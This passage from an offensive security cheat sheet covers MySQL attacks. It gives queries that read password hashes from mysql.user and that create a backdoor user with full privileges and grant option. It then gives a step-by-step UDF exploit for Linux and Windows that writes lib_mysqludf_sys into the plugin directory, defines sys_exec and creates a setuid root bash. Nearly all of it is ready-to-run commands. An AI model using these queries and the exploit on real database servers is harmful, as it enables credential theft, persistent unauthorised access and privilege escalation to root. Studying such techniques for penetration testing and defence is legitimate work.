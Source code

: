 ```sql

-- Look at passwords
-- MySQL 5.6 and below
select host, user, password from mysql.user;
-- MySQL 5.7 and above
select host, user, authentication_string from mysql.user;

-- add new user with full privileges
create user test identified by 'test';
grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to test identified by 'test' WITH GRANT OPTION;
-- show exact privileges
use information_schema; select grantee, table_schema, privilege_type from schema_privileges;
select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
```


### 2.17.1 MySQL UDF Exploit

Exploiting User-Defined Functions in MySQL to get shell execution. First,
ready the UDF library (provides `sys_exec` function) locally on the server.

Prerequisites:
- Write permission (INSERT) for the database’s "func" table
- FILE privileges to copy our library (shared object) to the plugin directory

```sh
# find sqlmap's copy of lib_mysqludf_sys.so (or dll)
locate lib_mysqludf_sys
# found in /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
# copy the file into the server's /tmp/lib_mysqludf_sys.so for examples below
```

In MySQL terminal:

```sql
-- checking permissions
select * from mysql.user where user = substring_index(user(), '@', 1);
-- checking architecture
select @@version_compile_os, @@version_compile_machine;
-- or
show variables like '%compile%';
-- checking plugin directory (where to drop udf library)
select @@plugin_dir;
-- or
show variables like 'plugin%';

-- Linux
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
-- alternative: hex encode .so file and dump it directly:
select binary 0x<shellcode> into dumpfile '<plugin_dir>/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
-- then start local shell with `/tmp/rootbash -p` to get root

-- Windows
use mysql;
create table npn(line blob);
insert into npn values(load_files('c://temp//lib_mysqludf_sys_32.dll'));
select * from mysql.npn into dumpfile 'c://windows//system32//lib_mysqludf_sys_32.dll';
-- alternative: dump hex shellcode directly into file:
select binary 0x<shellcode> into dumpfile '<plugin_dir>/lib_mysqludf_sys_32.dll';
```